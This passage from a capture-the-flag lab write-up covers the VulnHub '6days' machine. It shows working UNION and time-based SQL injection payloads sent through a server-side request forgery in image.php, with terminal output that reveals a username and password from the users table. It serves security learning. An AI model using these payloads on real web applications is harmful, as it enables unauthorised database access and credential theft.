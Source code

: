 This now allows me to make a call like ```./query.py "'"``` which does the proper URL encoding for me.

<b>1% discount</b><br />
With some trial and error I was able to get a 1% discount message as seen below:
```
root@sengen-kali:~/vulnhub/6days# ./query.py "' union select 1,'1"
http://192.168.56.104/image.php?src=http%3A%2F%2F127.0.0.1%3A8080%2Fcheckpromo.php%3Fpromocode%3D%2527%2Bunion%2Bselect%2B1%252C%25271
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    21  100    21    0     0   2966      0 --:--:-- --:--:-- --:--:--  3500
You have %1 discount!
```

<b>0% - Sleep(1)</b><br />
Confirmed through a sleep that I was executing my select here:
```
root@sengen-kali:~/vulnhub/6days# ./query.py "' union select sleep(1),'1"
http://192.168.56.104/image.php?src=http%3A%2F%2F127.0.0.1%3A8080%2Fcheckpromo.php%3Fpromocode%3D%2527%2Bunion%2Bselect%2Bsleep%25281%2529%252C%25271
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    21  100    21    0     0     20      0  0:00:01  0:00:01 --:--:--    20
You have %0 discount!
```

## Searching for valid tables
Due to the sleep trick I could execute queries to test for valid table names.  If the table name was valid I would get the 1 second sleep, if it was invalid it would return immediately.

In the end, a "users" table was present:
```
root@sengen-kali:~/vulnhub/6days# ./query.py "' union select sleep(1), 1 from users union select 1, '1"
http://192.168.56.104/image.php?src=http%3A%2F%2F127.0.0.1%3A8080%2Fcheckpromo.php%3Fpromocode%3D%2527%2Bunion%2Bselect%2Bsleep%25281%2529%252C%2B1%2Bfrom%2Busers%2Bunion%2Bselect%2B1%252C%2B%25271
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    42  100    42    0     0     41      0  0:00:01  0:00:01 --:--:--    41
You have %0 discount!You have %1 discount!
```

## Finding valid columns and ultimately credentials to an account we saw earlier in the /etc/passwd file
```
root@sengen-kali:~/vulnhub/6days# ./query.py "' union select username, 1 from users union select 1, '1"
http://192.168.56.104/image.php?src=http%3A%2F%2F127.0.0.1%3A8080%2Fcheckpromo.php%3Fpromocode%3D%2527%2Bunion%2Bselect%2Busername%252C%2B1%2Bfrom%2Busers%2Bunion%2Bselect%2B1%252C%2B%25271
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    47  100    47    0     0  11895      0 --:--:-- --:--:-- --:--:-- 15666
You have %<b>andrea</b> discount!You have %1 discount!

root@sengen-kali:~/vulnhub/6days# ./query.py "' union select password, 1 from users union select 1, '1"
http://192.168.56.104/image.php?src=http%3A%2F%2F127.0.0.1%3A8080%2Fcheckpromo.php%3Fpromocode%3D%2527%2Bunion%2Bselect%2Bpassword%252C%2B1%2Bfrom%2Busers%2Bunion%2Bselect%2B1%252C%2B%25271
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56  100    56    0     0  19656      0 --:--:-- --:--:-- --:--:-- 28000
You have %<b>SayNoToPentests</b> discount!You have %1 discount!
```
